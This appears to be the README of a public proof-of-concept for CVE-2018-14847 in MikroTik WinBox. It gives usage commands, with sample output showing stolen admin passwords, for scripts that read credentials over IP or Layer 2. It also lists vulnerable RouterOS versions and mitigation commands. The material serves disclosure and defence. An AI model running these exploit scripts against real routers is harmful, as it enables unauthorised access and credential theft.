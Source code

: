 # WinboxExploit
This is a proof of concept of the critical WinBox vulnerability (CVE-2018-14847) which allows for arbitrary file read of plain text passwords.

## Blogpost
https://n0p.me/winbox-bug-dissection/

## Requirements
- Python 3+

This script will NOT run with Python 2.x or lower.

## How To Use
The script is simple used with simple arguments in the commandline.

#### WinBox (TCP/IP)
Exploit the vulnerability and read the password.
```
python3 WinboxExploit.py <ip-address>
```
Example:
```
$ python3 WinboxExploit.py 172.17.17.17

User: admin
Pass: Th3P4ssWord
```

#### MAC server WinBox (Layer 2)  
You can extract files even if the device doesn't have an IP address.

Simple discovery check for locally connected Mikrotik devices.
```
python3 MACServerDiscover.py
```
Example:
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa
```

Exploit the vulnerability and read the password.
```
python3 MACServerExploit.py <mac-address>
```
Example:
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord
```

## Vulnerable Versions
All RouterOS versions from 2015-05-28 to 2018-04-20 are vulnerable to this exploit.

Mikrotik devices running RouterOS versions:

- Longterm: 6.30.1 - 6.40.7
- Stable: 6.29 - 6.42
- Beta: 6.29rc1 - 6.43rc3

For more information see: https://blog.mikrotik.com/security/winbox-vulnerability.html

## Mitigation Techniques
- Upgrade the router to a RouterOS version that include the fix. 
- Disable the WinBox service on the router.
- You can restricct access to the WinBox service to specific IP-addresses wtih the following:
```
/ip service set winbox address=10.0.0.0/8,172.16.0.0/12,192.168.0.0/16
```
- You may use some Filter Rules (ACL) to deny external access to the WinBox service:
```
/ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```
- Limiting access to the mac-winbox service can be done by specifing allowed interfaces:
```
/tool mac-server mac-winbox
```

## Copyright
 - Sponsered by Iran's CERTCC(https://certcc.ir). All rights resereved.
